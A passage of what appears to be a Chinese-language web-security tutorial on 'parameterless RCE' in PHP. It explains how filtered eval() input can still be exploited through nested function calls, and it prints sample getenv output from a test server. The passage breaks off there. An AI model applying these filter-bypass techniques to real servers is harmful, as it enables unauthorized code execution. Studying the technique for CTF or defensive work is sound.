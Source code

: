 ## 无参数RCE

> 正常来说有`eval($_GET['a'])`就可以直接getshell了,但是无参数RCE在eval前添加了大量的过滤,不能直接getshell,需要手动进行构造

无参数说明只允许执行这个格式的函数`a(b(c()))`,不能包含参数

但是可以利用php中的多个特殊函数来绕过无参数的限制

### 数据获取

1. `getenv`获取php的全局变量

```
array(31) {
  ["SHELL"]=>
  string(9) "/bin/bash"
  ["COLORTERM"]=>
  string(9) "truecolor"
  ["TERM_PROGRAM_VERSION"]=>
  string(6) "1.55.1"
  ["HOSTNAME"]=>
  string(12) "fface764cb0a"
  ["PHP_VERSION"]=>
  string(6) "7.4.16"
  ["APACHE_CONFDIR"]=>
  string(12) "/etc/apache2"
  ["PHP_INI_DIR"]=>
  string(18) "/usr/local/etc/php"
  ["GPG_KEYS"]=>
  string(81) "42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312"
  ["REMOTE_CONTAINERS_IPC"]=>
  string(79) "/tmp/vscode-remote-containers-ipc-ea63dd31c4333088abb9783b645c2d35e4a5e37b.sock"
  ["PHP_LDFLAGS"]=>
  string(12) "-Wl,-O1 -pie"
  ["PWD"]=>
  string(13) "/var/www/html"
  ["HOME"]=>
  string(5) "/root"
  ["LANG"]=>
  string(11) "en_US.UTF-8"
  ["REMOTE_CONTAINERS"]=>
  string(4) "true"
  ["PHP_SHA256"]=>
  string(64) "1c16cefaf88ded4c92eed6a8a41eb682bb2ef42429deb55f1c4ba159053fb98b"
  ["PHPIZE_DEPS"]=>
  string(76) "autoconf          dpkg-dev                file            g++             gcc             libc-dev             make            pkg-config              re2c"
  ["TERM"]=>
  string(14) "xterm-256color"
  ["REMOTE_CONTAINERS_SOCKETS"]=>
  string(2) "[]"
  ["PHP_URL"]=>
  string(51) "https://www.php.net/distributions/php-7.4.16.tar.xz"
  ["PHP_EXTRA_CONFIGURE_ARGS"]=>
  string(26) "--with-apxs2 --disable-cgi"
  ["SHLVL"]=>
  string(1) "1"
  ["PHP_CFLAGS"]=>
  string(83) "-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64"
  ["APACHE_ENVVARS"]=>
  string(20) "/etc/apache2/envvars"
  ["BROWSER"]=>
  string(88) "/root/.vscode-server/bin/08a217c4d27a02a5bcde898fd7981bda5b49391b/bin/helpers/browser.sh"
  ["PATH"]=>
```